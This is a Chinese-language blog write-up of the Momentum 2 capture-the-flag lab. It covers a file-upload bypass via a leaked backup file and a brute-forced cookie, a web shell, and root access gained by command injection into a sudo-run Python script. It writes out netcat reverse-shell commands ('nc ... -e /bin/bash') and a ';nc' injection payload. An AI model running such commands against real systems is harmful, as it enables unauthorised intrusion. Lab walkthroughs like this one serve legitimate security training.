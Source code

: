 ```yaml
---
layout: post
title: Momentum 2
subtitle: Momentum 2
date: 2025-07-19 15:53
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
published: true
---
```

### 信息收集

扫描IP 发现 `192.168.163.131`

![image.png](https://img.ghostliner.top/e6Tm65.png)

扫描端口，开发80、22端口

![image.png](https://img.ghostliner.top/urtsRx.png)

扫描目录

![image.png](https://img.ghostliner.top/vh5Uev.png)

查看站点，`/manual`发现文件上传

![image.png](https://img.ghostliner.top/Sk3BDv.png)

相关js代码，向`ajax.php`发送数据，返回1代表成功

![image.png](https://img.ghostliner.top/18Grb1.png)

目录扫描发现 `ajax.php.bak`文件

![image.png](https://img.ghostliner.top/0xK8l9.png)

根据代码，需要添加cookie，且最后一位追加大写字母，设置参数 `secure`值为 `val1d`，则可以上传php文件

```
admin=&G6u@B6uDXMq&Ms
```

bp测试，发现为字符 `R`

![image.png](https://img.ghostliner.top/3WGt0N.png)


![image.png](https://img.ghostliner.top/qx4Ncq.png)

成功上传 `shell.php`文件，7kbscan扫描目录发现 `/owls/`

![image.png](https://img.ghostliner.top/M3SlE8.png)

确定脚本位置： http://192.168.163.131/owls/shell.php ，使用蚁剑连接

### 反弹shell

```shell
nc -nv 192.168.163.132 -e /bin/bash
```

![image.png](https://img.ghostliner.top/kOUeD9.png)

查看 `/etc/passwd`发现用户`athena`

![image.png](https://img.ghostliner.top/ZloKSE.png)

查看home目录，发现多个文本文件，一个脚本文件

![image.png](https://img.ghostliner.top/JvFQqX.png)

获取第一个flag

![image.png](https://img.ghostliner.top/1gYtoc.png)

### 提权

获取密码：`myvulnerableapp[Asterisk]` Asterisk为星号

![image.png](https://img.ghostliner.top/uavPEh.png)

发现提示，要执行 `cookie-gen.py`脚本

![image.png](https://img.ghostliner.top/qdcFM1.png)

查看脚本内容

```python
import random
import os
import subprocess

print('~ Random Cookie Generation ~')
print('[!] for security reasons we keep logs about cookie seeds.')
chars = '@#$ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefgh'

seed = input("Enter the seed : ")
random.seed = seed

cookie = ''
for c in range(20):
    cookie += random.choice(chars)

print(cookie)

cmd = "echo %s >> log.txt" % seed
subprocess.Popen(cmd, shell=True)
```

最后一行命令会启动一个shell进程来解析cmd字符串，cmd字符串中包含了用户输入的内容

使用密码：`myvulnerableapp*`，登录 `athena`成功，发现可用`/usr/bin/python3 /home/team-tasks/cookie-gen.py`提权

![image.png](https://img.ghostliner.top/43yOpc.png)

```shell
sudo /usr/bin/python3 /home/team-tasks/cookie-gen.py
# 输入反弹shell代码
;nc -nv 192.168.163.132 5555 -e /bin/bash
```

反弹成功

![image.png](https://img.ghostliner.top/eOXzYY.png)

提权成功

![image.png](https://img.ghostliner.top/CXtpxk.png)
